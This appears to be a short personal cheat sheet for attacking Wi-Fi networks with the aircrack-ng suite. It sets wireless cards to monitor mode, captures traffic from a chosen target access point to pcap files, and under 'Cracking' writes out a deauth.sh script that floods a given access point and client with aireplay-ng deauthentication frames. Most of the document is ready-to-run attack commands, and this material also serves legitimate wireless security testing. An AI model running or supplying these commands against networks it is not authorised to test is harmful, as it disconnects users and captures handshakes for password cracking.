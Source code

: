 ## General

### AP `a`
```bash
1 ap
2 sta
3 ap+sta
```

### Filter `s`
```bash
10 first seen
```

## Driver
```bash
https://github.com/aircrack-ng/rtl8812au
```

## Settings
```bash
ip link set wlan0 down
iw dev wlan0 set type monitor
ip link set wlan0 up

ip link set wlan1 down
iw dev wlan1 set type monitor
ip link set wlan1 up
```

## Monitor

### Generic
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime --band a wlan0
airodump-ng --manufacturer --beacons --showack --wps --uptime --band bg wlan0
```

```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format csv --write sessions \
            --band bg wlan0
```

### Target
```bash
airodump-ng --manufacturer --beacons --showack --wps --uptime \
            --write-interval 1 --output-format pcap --write target \
            --channel CHANGEME --bssid CHANGEME wlan1
```

## Cracking
```bash
cat > deauth.sh << "EndOfMessage"
iwconfig wlan1 channel "${1}"

aireplay-ng -0 99 -D -a "${2}" -c "${3}" wlan1
EndOfMessage

chmod +x deauth.sh
```

## Kill View
```bash
kill -9 `ps aux | grep -i aircrack | awk '{print $2}'`
```
